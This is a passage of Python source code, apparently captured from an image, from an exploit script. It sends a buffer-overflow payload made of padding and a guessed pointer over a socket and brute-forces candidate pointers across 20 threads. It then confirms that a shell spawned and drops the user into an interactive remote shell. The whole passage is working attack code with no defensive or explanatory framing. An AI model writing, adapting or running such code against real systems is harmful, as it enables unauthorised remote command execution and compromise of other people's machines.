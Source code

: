 ```python
            #  - Followed by 8 bytes of candidate_ptr.
            padding = b"A" * candidate_offset
            payload_ptr = struct.pack("<Q", candidate_ptr)
            payload = padding + payload_ptr
            payload = payload.ljust(candidate_offset + 8, b"B")
            s.sendall(payload)

            # Stage 3: Verify if a shell is spawned.
            time.sleep(0.5)
            s.sendall(b"echo HAX\n")
            time.sleep(0.5)
            resp = s.recv(4096).decode(errors="ignore")
            if "HAX" in resp:
                with socket_lock:
                    if not shell_found.is_set():
                        successful_socket = s
                        shell_found.set()
                        return
            else:
                s.close()
        except Exception:
            s.close()
            continue

def interactive_shell(s):
    print("[+] Shell obtained! Entering interactive mode. (Press Ctrl+C to exit.)")

    # Set a short timeout for recv() to prevent indefinite blocking
    s.settimeout(1)  # 1 second timeout for receiving data

    try:
        while True:
            cmd = input("$ ").strip()
            if not cmd:
                continue  # Ignore empty input

            s.sendall((cmd + "\n").encode())  
            time.sleep(0.3)  # Allow command execution
            
            try:
                response = s.recv(4096).decode(errors="ignore")
                if not response.strip():  # Handle empty response (e.g., `cd`)
                    response = "[No Output]\n"
            except socket.timeout:  # If no data is received within timeout
                response = "[No Output]\n"
            except Exception as e:
                response = f"[Error: {e}]\n"

            print(response, end="")

    except KeyboardInterrupt:
        print("\n[!] Exiting interactive shell.")
        s.close()

def main():
    num_threads = 20  # Number of concurrent threads.
    threads = []

    print("[*] Starting multi-threaded brute force attempts...")
    for _ in range(num_threads):
        t = threading.Thread(target=attempt_exploit)
        t.daemon = True
        t.start()
```